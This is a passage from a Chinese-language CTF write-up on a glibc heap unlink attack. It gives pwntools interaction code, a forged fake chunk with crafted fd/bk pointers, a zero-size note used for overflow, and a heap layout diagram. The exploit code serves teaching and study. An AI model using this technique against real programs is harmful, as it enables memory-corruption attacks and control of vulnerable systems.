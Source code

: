 ```python
    p.recvuntil('option--->>')
    p.sendline('3')
    p.recvuntil('note:')
    p.sendline(str(id))
    p.recvuntil('2.append]')
    p.sendline(str(choice))
    p.sendline(s)


def deletenote(id):
    p.recvuntil('option--->>')
    p.sendline('4')
    p.recvuntil('note:')
    p.sendline(str(id))
```

#### 生成三個note

構造三個 chunk，chunk0、chunk1 和 chunk2

```python
# chunk0: a fake chunk
ptr = 0x0000000000602120
fakefd = ptr - 0x18
fakebk = ptr - 0x10
content = 'a' * 8 + p64(0x61) + p64(fakefd) + p64(fakebk) + 'b' * 64 + p64(0x60)
#content = p64(fakefd) + p64(fakebk)
newnote(128, content)
# chunk1: a zero size chunk produce overwrite
newnote(0, 'a' * 8)
# chunk2: a chunk to be overwrited and freed
newnote(0x80, 'b' * 16)
```

其中這三個 chunk 申請時的大小分別爲0x80，0，0x80，chunk1 雖然申請的大小爲0，但是 glibc 的要求 chunk 塊至少可以存儲 4 個必要的字段(prev\_size,size,fd,bk)，所以會分配 0x20 的空間。同時，由於無符號整數的比較問題，可以爲該note輸入任意長的字符串。

這裏需要注意的是，chunk0 中一共構造了兩個 chunk

- chunk ptr[0]，這個是爲了 unlink 時修改對應的值。
- chunk ptr[0]'s nextchunk，這個是爲了使得 unlink 時的第一個檢查滿足。

```c
    // 由於P已經在雙向鏈表中，所以有兩個地方記錄其大小，所以檢查一下其大小是否一致。
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
```

當構造完三個 note 後，堆的基本構造如圖1所示。

```
                                   +-----------------+ high addr
                                   |      ...        |
                                   +-----------------+
                                   |      'b'*8      |
                ptr[2]-----------> +-----------------+
                                   |    size=0x91    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|------------
                                   |    unused       |
                                   +-----------------+
                                   |    'a'*8        |
                 ptr[1]----------> +-----------------+  chunk 1
                                   |    size=0x20    |
                                   +-----------------+
                                   |    prevsize     |
                                   +-----------------|-------------
```